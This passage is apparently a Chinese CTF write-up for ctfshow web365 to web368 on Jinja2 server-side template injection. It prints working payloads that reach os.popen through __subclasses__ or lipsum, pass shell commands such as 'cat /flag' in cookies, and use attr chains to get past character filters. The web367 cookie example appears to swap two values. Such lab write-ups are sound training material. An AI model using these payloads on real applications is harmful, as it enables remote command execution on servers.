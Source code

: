 ![image](assets/image-20250417141732-dkydw8c.png)

直接构造payload:{{().__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.popen(request.cookies.a).read()}}

但是还有没有其他过滤也不清楚，上面因为是web入门按照循序渐进的方式进行加大难度的，所以应该就添加了这一个过滤，其他的我就没考虑了，如果要查看更多的过滤，可以造个字典进行测试，具体方法在下面一题说

# web366

![image](assets/image-20250417143841-uwfqbmj.png)

‍

试了几个payload，没发现有回显，换了一个类型也没回显，应该过滤不在这里，直接用字典进行过滤检测

![image](assets/image-20250417152529-ol32h99.png)

发现__,args,[,',"被过滤,使用|+attr+request绕过

```undefined
#同时
{{()|attr(request.values.name1)|attr(request.values.name2)|attr(request.values.name3)()|attr(request.values.name4)(40)('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')|attr(request.values.name5)()}}
post:
name1=__class__&name2=__base__&name3=__subclasses__&name4=pop&name5=read

```

发现没有回显，后来又想到lipsum模块下也有os模块

使用lipsum模块进行尝试，payload如下：`/?name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}`​

![image](assets/image-20250417155123-bzuw5pn.png)

# web367

再次用字典测试过滤字符：_,[,',",os,args

但是os由cookie传进去就绕过过滤了，所以把payload改一下`/?name={{(lipsum|attr(request.cookies.a)).get(request.cookies.b).popen(request.cookies.c).read()}}`​

​`cookie:a = __globals__;b=cat /flag; c=os`​

找到flag：ctfshow{0bbeb384-1a7a-4f3b-804c-dd9e24700932}

![image](assets/image-20250417201233-yw3ymr3.png)

# web368

此次过滤[,{{,",os,args,_,考察方式同上

将{{}}改成{%%}进行注入，具体文章看
